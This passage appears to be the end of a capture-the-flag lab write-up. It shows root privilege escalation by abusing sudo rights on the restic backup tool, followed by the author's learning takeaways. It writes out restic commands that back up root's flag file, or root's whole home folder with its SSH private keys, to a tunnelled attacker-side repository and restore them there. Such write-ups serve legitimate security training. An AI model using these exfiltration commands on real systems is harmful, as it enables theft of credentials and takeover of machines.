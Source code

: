 We can exfiltrate data with root permissions by using the `sudo restic` command. To exploit the command from the webshell, run `sudo /usr/bin/restic backup -r rest:http://localhost:4455/ -p /tmp/tmpf /root/root.txt`. What that does is send the backup to the forwarded port 4455, which is running on localhost from perspective of the remote box. The `-p /tmp/tmpf` refers to a file containing the password used for the repository when it was initialized. The password file will need to be created before running this command.

## Retrieving the data from the restic repo FOR THE WIN!
After that, we have to restore the data from the backup taken on the remote box to get the root flag. Use the command `restic -r rest:http://localhost:5678/ restore latest --target from-registry` to grab the root flag!

## Alternative ending: root shell
Getting the root flag is nice, but popping root shells is nicer! To do that on this box, replace the `/root/root.txt`  with just `/root/`. That way the backup will send the entire `root` home folder. Within the home folder, there is a `.ssh` folder with private keys!

[![Root SSH](/assets/img/registry/2020-03-19_23h34_27.png)](/assets/img/registry/2020-03-19_23h34_27.png)

# **~The end~**
## Takeaways
This was my first hard box, and I loved it. Up until that point I had been intending on learning more about Docker and how to exploit it for some time, and I'm really glad this gave me the opportunity to do so. 

1. Probably my most valuable takeaway from this box is that I can work with Docker containers now. 
2. I'm also thankful for learning about the pretty cool backup program, Restic. 
3. Bolt CMS isn't something I expect to see again, but it was fun exploiting a CMS of any kind. 
4. I also used sqlite3 to access a local database file for the first time, and that will certainly be helpful in future scenarios.
5. This was the first time I successfully used a REVERSE SSH port forward tunnel. I have used the regular kind before though.
6. For a standard tactic, I'll be paying more attention to file modification dates in the future, since the point I became the most stuck in this box was when I needed to edit the main config file for Bolt CMS, and realizing that it reverted back *after* first being saved, was crucial.
